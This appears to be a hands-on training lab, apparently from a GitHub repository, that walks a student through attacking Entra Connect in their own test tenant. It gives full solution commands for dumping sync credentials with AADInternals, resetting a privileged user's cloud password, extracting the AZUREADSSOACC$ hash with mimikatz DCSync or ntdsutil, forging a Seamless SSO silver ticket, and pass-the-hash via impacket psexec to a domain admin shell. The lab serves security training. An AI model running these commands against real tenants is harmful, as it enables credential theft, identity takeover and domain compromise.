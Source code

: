 # Lab 2 - Entra Connect Attacks
### Preparations
#### Prepare a victim user with high privileges:
in [Entra porta](https://entra.microsoft.com/#view/Microsoft_AAD_UsersAndTenants/UserManagementMenuBlade/~/AllUsers/menuId/) (login with your admin tenant creds), select ***user1*** and assign it with the **Active** (not *Eligible*) **Application Administrator** role



# Instructions
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Entra Connect server (in our case- it's the DC VM), and you know the Entra tenant domain.

Don't go so fast for the solution.. **try first!**

# Start 

### 1. Reconnaissance
Using AADInternals, do a bit of recon to find out the the tenant ID, and if the tenant has Seamless SSO turned on..

Hint: use https://aadinternals.com/aadinternals

<details>
<summary><b>Solution</b></summary>

```powershell
Import-Module AADInternals
Invoke-AADIntReconAsOutsider -DomainName YOURDOMAIN.onmicrosoft.com
```
</details>


### 2. Dumping and Extracting Entra Connect credentials:
Now that you've got basic info, get the credentials of the Sync and MSOL accounts.

<details>
<summary><b>Solution</b></summary>

Execute in powershell:

```powershell
Get-AADIntSyncCredentials
```
keep the creds aside :)
</details>

### 3. Finding a target (victim) user to attack
So far you've obtained:
1. Tenant ID + domain
2. Sync_xx account credentials

In order to move laterally to the cloud, we should find a synced user that we can take over...


<details>
<summary><b>Hint 1</b></summary>

See which users are Active Directory users that are synced to the cloud...
</details>

<details>
<summary><b>Hint 2</b></summary>

Go the easier way:
* Use AzureAD Powershell module (https://learn.microsoft.com/en-us/powershell/module/azuread/?view=azureadps-2.0)

Go the advanced way (and learn how to use access tokens):
1. Use AADInternals to get an access token for AAD Graph
2. Use AzureAD Powershell module and connect using this token (https://learn.microsoft.com/en-us/powershell/module/azuread/?view=azureadps-2.0)


</details>

<details>
<summary><b>Hint 3</b></summary>

Hard way commands:
1. ```Get-AADIntAccessTokenForAADGraph```
1. ```Connect-AzureAD -AccountId $SyncUserUPN -TenantId $tenantId -AadAccessToken $at```

if you went the easy way - figure it out yourself.
</details>

<details>
<summary><b>Hint 4</b></summary>

Using AzureAD Powershell module, list the users, and try to see which one has a powerful role..
</details>


<details>
<summary><b>Solution</b></summary>

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph

# method 1: 
$userUPN = "Sync_xxx@YOURDOMAIN.onmicrosoft.com" # change the username
Connect-AzureAD -AccountId $userUPN -TenantId $tenantId -AadAccessToken $at

# method 2:
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id,
```

Enumerate users:
```powershell
# this is just a fancy, oneliner script to list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```

Did you find it? should be ```user1```.
</details>


### 4. Reset Password Attack
#### Reset the victim user's Entra password

<details>
<summary><b>Hint 1</b></summary>

Using AADInternals, reset that user's password and then login on its behalf.
</details>

<details>
<summary><b>Hint 2</b></summary>

Use Set-AADIntUserPassword command
</details>

<details>
<summary><b>Solution</b></summary>

```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```
Now, open https://entra.microsoft.com in the browser **in incognito** and login as that user *VICTIM_USER@YOURDOMAIN.onmicrosoft.com* with the new password :)


*This method does not bypass MFA
</details>


#
### 5. Silver Ticket (Seamless SSO) Attack

Set the domain:
```powershell
$domain = "MYDOMAIN" # change to your domain name WITHOUT the ".onmicrosoft.com" part 
```

#### 1. Get AZUREADSSOACC computer account's hash:
```powershell
# Option 1: Get-ADReplAccount
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain $domain -Server dcvm # take the "NTHash" part

# Option 2: mimikatz
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$"
    
# Option 3: Dump NTDS.dit and registry:
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q # Now the AD and registry are dumped to C:\temp and we can extract the password hash using DSInternals.
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hex # Get the password's hash of AZUREADSSOACC
# remote the empty spaces and keep the hash
```

Set the hash:
```powershell
$hash = "CHANGEME"
```
#### 2. Find victim user to impersonate

```powershell
# Option 1: query Entra + get roles
Import-Module AzureAD
Connect-AzureAD # use the dumped Entra Connect creds (Sync_XXX account)


# Option 2: query AD (w/o getting Entra roles)
Get-ADReplAccount -SamAccountName 'VICTIM_USER' -Domain $domain -Server dcvm # take the "Sid:" part
```

Set the victim user's SID:
```powershell
$victimUserSid = "S-1-5-21-CHANGEME" # set the sid of the user you wish to impersonate
```

#### 3. Perform the attack
```powershell
# generate kerberos ticket
$kerberos=New-AADIntKerberosTicket -SidString $victimUserSid -Hash $hash

# get an access token for that user
$at = Get-AADIntAccessTokenForMSGraph -KerberosTicket $kerberos -Domain $domain".onmicrosoft.com"
# if you get AADSTS50079 error, it might mean you have a conditional access policy in your Entra tenant named "Security info registration for Microsoft partners and vendors" that blocks this login, you need to reinstall the entire lab from scratch and associate it yo your new tenant

# start exploring what you can do in the tenant using MS Graph API!
$MaximumFunctionCount = 8192 # bypass powershell's scope memory limit
Import-Module Microsoft.Graph.Users
$securedAT = ConvertTo-SecureString $at -AsPlainText -Force
Connect-MgGraph -AccessToken $securedAT

Get-MgContext

Get-MgUser
#SDK Docs: https://aka.ms/graph/sdk/powershell/docs
```
if you took the easy way earlier, take the hard one now!


#
### 6. Pass The Hash using Entra Connect's MSOL Account Attack

Your goal: using the MSOL account creds, perform pass the hash attack, and open cmd.exe in the context of a domain admin user (that is *not* ``user1``). Do it in the **Win 11 VM**.

* Use ``c:\lab\mimikatz`` and [impacket-psexec](https://github.com/ropnop/impacket_static_binaries/releases/download/0.9.22.dev-binaries/psexec_windows.exe)

<details>
<summary><b>Solution</b></summary>

```powershell

# find a domain admin user to target
Get-ADGroupMember 'domain admins' | select name,samaccountname

# login in the context of MSOL account
runas /user:YOUDOMAIN\MSOL_xxxxxx cmd.exe

# dump rootuser's hash
C:\lab\mimikatz\x64\mimikatz.exe "lsadump::dcsync /user:rootuser"

# from a new cmd:

.\psexec_windows.exe -hashes aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH> YOUDOMAIN/rootuser@10.0.0.10 cmd

ipconfig # see the IP is of DC VM

```
</details>


#
###  Good Job! Summarize yourself the attack paths you just took and the attacks you've learned!